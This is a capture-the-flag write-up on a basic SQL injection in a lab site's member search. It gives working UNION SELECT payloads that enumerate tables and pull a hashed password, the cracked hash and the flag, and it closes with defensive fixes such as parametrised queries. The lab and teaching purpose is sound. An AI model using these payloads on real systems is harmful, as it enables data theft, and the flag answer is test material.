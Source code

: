 # SQL Injection (Basic) 🏴<!-- omit in toc -->

```txt
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

- [Location](#location)
- [Vulnerability](#vulnerability)
- [Method](#method)
- [Tools & References](#tools--references)
- [Fix](#fix)

## Location

'http://\<ip-address>:80/index.php?page=member'

## Vulnerability

SQL Injectable text input in the member search. An
injectible database will allow a person to obtain sensitive information.

## Method

I entered `105 OR 1=1` in the search box. This returned:

```txt
ID: 105 OR 1=1
First name: Barack Hussein
Surname : Obama

ID: 105 OR 1=1
First name: Adolf
Surname : Hitler

ID: 105 OR 1=1
First name: Joseph
Surname : Staline

ID: 105 OR 1=1
First name: Flag
Surname : GetThe
```

The account of note is `First name: Flag` & `Surname: GetThe`. This is id=5

```txt
ID: 5
First name: Flag
Surname : GetThe
```

So I start running commands using 5 as my focus. The first
thing to do is to find out which tables are present and which coloumns:

```sql
5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
```

```txt
ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : user_id

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : first_name

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : last_name

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : town

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : country

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : planet

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : Commentaire

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : countersign
```

We have found the users table and the columns therein. We are interested to see the contents now so we query:

```sql
5 UNION SELECT Commentaire, countersign FROM users
```

OR to narrow the search down query:

```sql
5 UNION SELECT Commentaire, countersign FROM users WHERE user_id =5
```

This will return:

```txt
ID: 5 UNION SELECT Commentaire, countersign FROM users Where user_id=5
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

This is an MD5 hash is:
`5ff9d0165b4f92b14994e5c685cdce28: FortyTwo`

The SHA256 for `fortytwo: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## Tools & References

- [hashes.com](https://hashes.com/en)
- [W3Schools.com](https://www.w3schools.com/sql/sql_injection.asp)
- [Cheatsheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
- [Owasp](https://owasp.org/www-community/attacks/SQL_Injection)
- [Portswigger - Union Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQL Injection .NET](https://www.sqlinjection.net/table-names/)
- [PT Security](https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/)

## Fix

- Input Validation
  - Use Regular Expressions as whitelist
  - If values are fixed use radios and buttons
- Use internal checks like $(isNumber) or $(isString) depending on the input
- Parametrised Querys like PDO for php or Prepared Statements in general.
- Escaping the characters eg. `mysqli_real_escape_string($string)`

There are other methods like Web Application Firewalls, but the ones listed above are the best places to start.
